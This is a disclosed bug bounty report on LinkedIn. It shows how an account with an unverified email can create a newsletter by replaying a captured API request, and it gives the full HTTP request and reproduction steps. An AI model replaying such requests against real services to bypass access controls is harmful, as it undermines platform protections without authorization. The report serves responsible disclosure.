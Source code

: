 # A Unverified User Can Post Newsletter (Which Is Not Allowed Through Application UI)

## Report Details
- **Report ID**: 1691603
- **URL**: https://hackerone.com/reports/1691603
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-09-07T15:06:55.209Z
- **Disclosed**: 2023-08-24T02:53:38.402Z

## Reporter
- **Username**: tushar6378
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: linkedin

## Vulnerability Information
During the security testing, It has been observed that multiple features are not accessible to the unverified user( the user who did not verify the email) .. like :
i) Creating posts and articles. 
ii) Sending connection and message Requests
iii) Liking posts
Also, For the unverified user, The API ```POST /voyager/api/publishing/normFirstPartyArticle```  gives 403 error 
and also there is no option to create the Newsletter in the application UI.
██████
But if we directly send the below request with the unverified user cookie ..it will be possible to create a new Newsletter.
```
POST /voyager/api/publishing/contentSeries HTTP/2
Host: www.linkedin.com
Cookie: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/vnd.linkedin.normalized+json+2.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Li-Lang: en_US
X-Li-Track: {"clientVersion":"1.11.265","mpVersion":"1.11.265","osName":"web","timezoneOffset":5.5,"timezone":"Asia/Kolkata","deviceFormFactor":"DESKTOP","mpName":"voyager-web","displayDensity":1,"displayWidth":1440,"displayHeight":900}
X-Li-Page-Instance: urn:li:page:d_flagship3_publishing_post_edit;███████
Csrf-Token: ajax:████
X-Restli-Protocol-Version: 2.0.0
X-Li-Pem-Metadata: Voyager - Article Creator=create-series-model
Content-Type: application/json; charset=utf-8
Content-Length: 185
Origin: https://www.linkedin.com
Dnt: 1
Referer: https://www.linkedin.com/post/edit/███
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"title":"dfghjk","description":"dgfhjkcgvhbjnkm","publishFrequency":{"duration":2,"unit":"MONTH"},"inviteTargetAudiences":true,"logoUrn":"urn:li:digitalmediaAsset:█████"}
```
## Steps :
1) Sign up for an account on Linkedin
2) Without verifying the email, jump directly to the URL : https://www.linkedin.com/post/new/ to write an article 
3) It can be seen that there is no option to create a  Newsletter. 
██████████
4) Now Login into the account where the Email is verified and try to create a newsletter.
████████
5) Click on Done and capture the vulnerable request and replay the request with the unverified user cookies.
and the newsletter will be successfully created.
████████

## Vulnerable Request 
```
POST /voyager/api/publishing/contentSeries HTTP/2
Host: www.linkedin.com
Cookie: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/vnd.linkedin.normalized+json+2.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Li-Lang: en_US
X-Li-Track: {"clientVersion":"1.11.265","mpVersion":"1.11.265","osName":"web","timezoneOffset":5.5,"timezone":"Asia/Kolkata","deviceFormFactor":"DESKTOP","mpName":"voyager-web","displayDensity":1,"displayWidth":1440,"displayHeight":900}
X-Li-Page-Instance: urn:li:page:d_flagship3_publishing_post_edit;█████
Csrf-Token: ajax:█████████
X-Restli-Protocol-Version: 2.0.0
X-Li-Pem-Metadata: Voyager - Article Creator=create-series-model
Content-Type: application/json; charset=utf-8
Content-Length: 185
Origin: https://www.linkedin.com
Dnt: 1
Referer: https://www.linkedin.com/post/edit/██████
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"title":"dfghjk","description":"dgfhjkcgvhbjnkm","publishFrequency":{"duration":2,"unit":"MONTH"},"inviteTargetAudiences":true,"logoUrn":"urn:li:digitalmediaAsset:████"}
```

## Impact

A Unverified User can Create Newsletter Even if it is not allowed through the application UI which violets the business logic of the application .

## Attachments
No attachments
